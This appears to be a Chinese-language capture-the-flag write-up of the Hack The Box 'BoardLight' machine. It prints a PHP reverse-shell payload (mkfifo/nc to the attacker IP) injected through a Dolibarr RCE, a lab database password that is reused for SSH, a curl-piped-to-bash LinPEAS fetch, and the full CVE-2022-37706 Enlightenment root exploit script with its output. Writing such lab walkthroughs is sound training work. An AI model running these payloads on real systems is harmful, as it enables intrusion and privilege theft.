






## BoardLight

```
[★]$ nmap -sC -sV 10.129.231.37
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-13 04:33 CDT
Nmap scan report for 10.129.231.37
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.15 seconds
```
#### 不用域名就访问网站了

```
[★]$ echo '10.129.231.37 board.htb' | sudo tee -a /etc/hosts
10.129.231.37 board.htb
```
#### 使用ffuf对单板上潜在的虚拟主机进行模糊处理。HTB域，我们测试了一系列可能的子域名。命令格式为bitquark-subdomains-top10000 .txtwordlist替换主机头中的FUZZ占位符。这允许我们将HTTP请求发送到各个子域并检查响应。我们过滤掉大小为15949字节的响应使用-fs标志，这有助于我们忽略不相关的结果并关注可能显示有效子域的唯一响应。
```
[★]$ ls /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
/usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb/ -H 'Host: FUZZ.board.htb' -fs 15949

 crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duraion: 826ms]

[★]$ sudo sed -i '/10.129.231.37 board.htb/ s/$/ crm.board.htb/' /etc/hosts
```

#### 尝试admin/admin

### 版本漏洞搜索 Dolibarr version 17.0.0
https://nvd.nist.gov/vuln/detail/CVE-2023-30253
#### 描述17.0.1 之前的 Dolibarr 允许经过身份验证的用户通过大写操作执行远程代码：在注入的数据中使用 <?PHP 而不是 <?php
#### 1.Websites -> Website 点击+,输入shell,CREATE
#### 2.Page 点击+，点击Or create page from scratch or from a page template..., Title 输入shell,CREATE

#### 3.Edit HTML Source -> 添加<?PHP echo system("whoami");?> ->SAVE AND STAY-> SAVE


#### 4.点击最右边 望眼镜

### 开始输入payload
```
[*]$ nc -lvnp 4455
```
#### 访问网站crm.board.htb
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.149 4455 >/tmp/f");?>
```
#### SAVE
```
[★]$ nc -lvnp 4455
listening on [any] 4455 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.231.37] 53492
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls 
ls 
index.php  styles.css.php

www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls -la /tmp/
ls -la /tmp/
total 52
drwxrwxrwt 13 root     root     4096 Sep 13 08:26 .
drwxr-xr-x 19 root     root     4096 May 17  2024 ..
drwxrwxrwt  2 root     root     4096 Sep 13 07:48 .ICE-unix
drwxrwxrwt  2 root     root     4096 Sep 13 07:48 .Test-unix
drwxrwxrwt  2 root     root     4096 Sep 13 07:48 .X11-unix
drwxrwxrwt  2 root     root     4096 Sep 13 07:48 .XIM-unix
drwxrwxrwt  2 root     root     4096 Sep 13 07:48 .font-unix
drwxrwxrwt  2 root     root     4096 Sep 13 07:48 VMwareDnD
prw-r--r--  1 www-data www-data    0 Sep 13 08:27 f
<SNIP>
```
#### 进入正题
```
www-data@boardlight:~/html/crm.board.htb/htdocs$ ls /var/www/html/crm.board.htb/htdocs/conf/
<htdocs$ ls /var/www/html/crm.board.htb/htdocs/conf/
conf.php  conf.php.example  conf.php.old

www-data@boardlight:~/html/crm.board.htb/htdocs$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
<at /var/www/html/crm.board.htb/htdocs/conf/conf.php
<?php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
<SNIP>
```
#### dolibarrowner\serverfun2$2023!!
www-data@boardlight:~/html/crm.board.htb/htdocs$ cat /etc/passwd | grep /bin/bash
<.board.htb/htdocs$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
#### 用户larissa
### ssh登陆
```
[*]$ ssh larissa@10.129.231.37

larissa@boardlight:~$ ls 
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
larissa@boardlight:~$ cat user.txt
```
#### 第一眼，一个系统
### 特权升级
#### 将使用LinPEAS，这是一个脚本，可以帮助识别Linux中潜在的安全弱点环境。它检查各种错误配置、文件权限和其他漏洞这可能会被利用来获得更高的特权。我们将脚本下载到本地机器使用wget。
#### 在本地下载
```
[★]$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
#### 上传到ssh
```
[★]$ python3 -m http.server 3000
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
```
#### SUID - Check easy privesc, exploits and write perms
```
larissa@boardlight:~$ curl http://10.10.14.149:3000/linpeas.sh|bash

SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 15K Apr  8  2024 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
<SNIP>
```
#### 在列出的文件中，启蒙运动突出显示它具有设置用户ID （SUID）位集，允许它以文件所有者（在本例中为root）的特权运行。它是一个轻量级的和视觉上吸引人的桌面环境，为Linux提供图形用户界面系统。
#### 想到sudo -l
```
larissa@boardlight:~$ sudo -l
[sudo] password for larissa: 
Sorry, user larissa may not run sudo on localhost.
```
#### larissa用户不能在本地主机上运行sudo
```
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00042 [0.00042] - Begin Startup
ESTART: 0.00167 [0.00125] - Signal Trap
ESTART: 0.00169 [0.00002] - Signal Trap Done
ESTART: 0.00343 [0.00174] - Eina Init
ESTART: 0.00725 [0.00381] - Eina Init Done
ESTART: 0.00728 [0.00003] - Determine Prefix
ESTART: 0.00860 [0.00132] - Determine Prefix Done
ESTART: 0.00864 [0.00004] - Environment Variables
ESTART: 0.00867 [0.00004] - Environment Variables Done
ESTART: 0.00868 [0.00001] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```
### enlightenment版本漏洞
https://nvd.nist.gov/vuln/detail/CVE-2022-37706
#### 描述 Enlightenment 0.25.4 之前版本中的 enlightenment_sys 允许本地用户获得权限，因为它是 setuid root，并且系统库函数错误处理以 /dev/.. 子字符串开头的路径名
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
```
[*]$ wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
[★]$ cat exploit.sh
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
#### /dev/../tmp/ 会被解析为 /tmp/，然后尝试在 /tmp 下创建恶意脚本
#### 尝试利用漏洞执行恶意文件：${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
1.利用找到的易受攻击的 SUID 文件 ${file}（即 enlightenment_sys），执行 mount 命令，挂载文件系统。
2.-o noexec,nosuid,utf8,nodev,iocharset=utf8 等参数指定了挂载选项，其中 noexec 和 nosuid 会限制文件系统上的文件执行和 SUID 权限，但攻击者利用的技巧是绕过这些限制。
3.uid=$(id -u) 通过 id -u 获取当前用户的 UID（通常是普通用户的 UID），然后将其传递给 mount 命令，用来设置挂载时的 UID。
4.通过 "/dev/../tmp/;/tmp/exploit" 路径，绕过了某些路径验证，指向了 /tmp/exploit 文件。
5.将 /tmp/exploit 作为要挂载的目标文件，并在 /tmp/net 目录中执行。
```
#### 上传到ssh
```
[★]$ python3 -m http.server 2000
Serving HTTP on 0.0.0.0 port 2000 (http://0.0.0.0:2000/) ...
```
```
larissa@boardlight:~$ cd /tmp
larissa@boardlight:/tmp$ wget http://10.10.14.149:2000/exploit.sh
```
#### 运行expolit.sh
```
larissa@boardlight:/tmp$ bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# cat /root/root.txt
```
